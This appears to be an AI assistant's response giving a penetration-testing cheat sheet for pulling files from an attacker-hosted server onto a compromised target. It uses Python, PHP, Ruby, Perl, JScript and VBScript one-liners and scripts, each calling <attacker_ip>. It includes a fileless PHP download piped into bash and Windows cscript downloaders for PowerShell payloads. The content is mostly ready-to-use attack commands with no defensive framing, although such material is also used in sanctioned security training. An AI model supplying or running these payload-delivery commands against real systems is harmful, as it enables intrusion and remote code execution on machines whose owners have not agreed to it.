 

When `curl` or `wget` are unavailable, you can still transfer files using built-in interpreters like **Python, PHP, Ruby, Perl, JavaScript, or VBScript**.

---

## **1. Python File Transfers**

### **Python 2.7**

**On Attacker (hosting file):**

```bash
python2.7 -m SimpleHTTPServer 8080
```

**On Target (downloading):**

```bash
python2.7 -c 'import urllib; urllib.urlretrieve("http://<attacker_ip>:8080/file.sh", "file.sh")'
```

---

### **Python 3**

**On Attacker:**

```bash
python3 -m http.server 8080
```

**On Target:**

```bash
python3 -c 'import urllib.request; urllib.request.urlretrieve("http://<attacker_ip>:8080/file.sh", "file.sh")'
```

---

## **2. PHP File Transfers**

### **A. Quick Download & Save**

**On Target:**

```bash
php -r '$file = file_get_contents("http://<attacker_ip>:8080/file.sh"); file_put_contents("file.sh", $file);'
```

---

### **B. Buffered Download for Large Files**

**On Target:**

```bash
php -r 'const BUFFER = 1024; $fremote = fopen("http://<attacker_ip>:8080/file.sh", "rb"); $flocal = fopen("file.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

---

### **C. Fileless Execution (Download → Pipe → Execute)**

**On Target:**

```bash
php -r '$lines = @file("http://<attacker_ip>:8080/file.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

---

## **3. Ruby File Transfer**

**On Target:**

```bash
ruby -e 'require "net/http"; File.write("file.sh", Net::HTTP.get(URI.parse("http://<attacker_ip>:8080/file.sh")))'
```

---

## **4. Perl File Transfer**

**On Target:**

```bash
perl -e 'use LWP::Simple; getstore("http://<attacker_ip>:8080/file.sh", "file.sh");'
```

---

## **5. JavaScript File Transfer (Windows)**

When `cscript.exe` is available (Windows), you can script downloads.

### **Step 1: Create wget.js**

Create a file named `wget.js` with:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1; // binary
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

---

### **Step 2: Execute**

**On Target (Windows CMD or PowerShell):**

```cmd
cscript.exe /nologo wget.js http://<attacker_ip>:8080/file.ps1 file.ps1
```

---

## **6. VBScript File Transfer (Windows)**

### **Step 1: Create wget.vbs**

Save the following as `wget.vbs`:

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send
with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

---

### **Step 2: Execute**

**On Target:**

```cmd
cscript.exe /nologo wget.vbs http://<attacker_ip>:8080/file.ps1 file.ps1
```

---

### **Bonus Tip**

If HTTPS fails on older systems, switch to HTTP by hosting files locally:  
**On Attacker:**

```bash
python3 -m http.server 8080
```

**On Target:**

```cmd
cscript.exe /nologo wget.vbs http://<attacker_ip>:8080/file.ps1 file.ps1
```

---

Would you like me to integrate this with your Netcat, PowerShell Remoting, and Nginx HTTP/S transfer guides into a **single unified cheat sheet**?